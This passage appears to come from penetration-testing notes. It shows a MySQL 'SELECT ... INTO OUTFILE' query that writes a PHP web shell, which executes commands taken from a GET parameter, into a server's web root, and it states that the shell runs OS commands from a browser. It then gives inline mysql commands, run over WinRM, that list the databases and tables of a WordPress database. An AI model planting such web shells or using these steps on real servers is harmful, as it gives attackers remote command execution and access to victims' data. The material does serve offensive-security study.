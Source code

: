 {% code overflow="wrap" %}
```sql
# Write a webshell file
SELECT "<?php echo shell_exec($_GET['c']); ?>" INTO OUTFILE '/var/www/html/webshell.php';
```
{% endcode %}

Once written, this shell can be accessed via a browser to execute OS commands.

## Inline Commands

Tools like WinRM does not support interactive prompts like `mysql` shell normally uses. That means we must use the `-e` option to execute SQL statements inline:

{% code overflow="wrap" %}
```powershell
# List databases
> .\mysql.exe -u root -e "SHOW DATABASES;"

# List tables
.\mysql.exe -u root -D wordpress -e "SHOW TABLES;"
...
```
{% endcode %}
